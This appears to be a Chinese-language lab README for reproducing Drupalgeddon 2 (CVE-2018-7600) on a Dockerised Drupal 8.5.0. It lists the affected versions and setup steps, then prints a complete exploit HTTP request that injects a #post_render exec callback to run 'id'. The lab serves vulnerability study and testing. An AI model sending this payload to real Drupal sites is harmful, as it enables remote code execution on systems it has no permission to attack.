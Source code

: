 # Drupal Drupalgeddon 2远程代码执行漏洞（CVE-2018-7600）

Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

在Drupal 7.58之前的版本、8.3.9之前的8.x版本、8.4.6之前的8.4.x版本和8.5.1之前的8.5.x版本中存在远程代码执行漏洞。该漏洞影响了多个具有默认或常见模块配置的子系统，包括Form API。

参考链接：

- <https://www.drupal.org/sa-core-2018-002>
- <https://research.checkpoint.com/uncovering-drupalgeddon-2/>

## 环境搭建

执行如下命令启动一个存在漏洞的Drupal 8.5.0服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到Drupal的安装页面。使用"标准"配置文件完成Drupal安装。由于环境中没有MySQL，安装时应选择SQLite数据库。安装完成后，即可开始漏洞利用。

## 漏洞复现

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，我们可以向Drupal发送以下请求：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

代码执行成功后，id命令将被执行：

![](1.png)
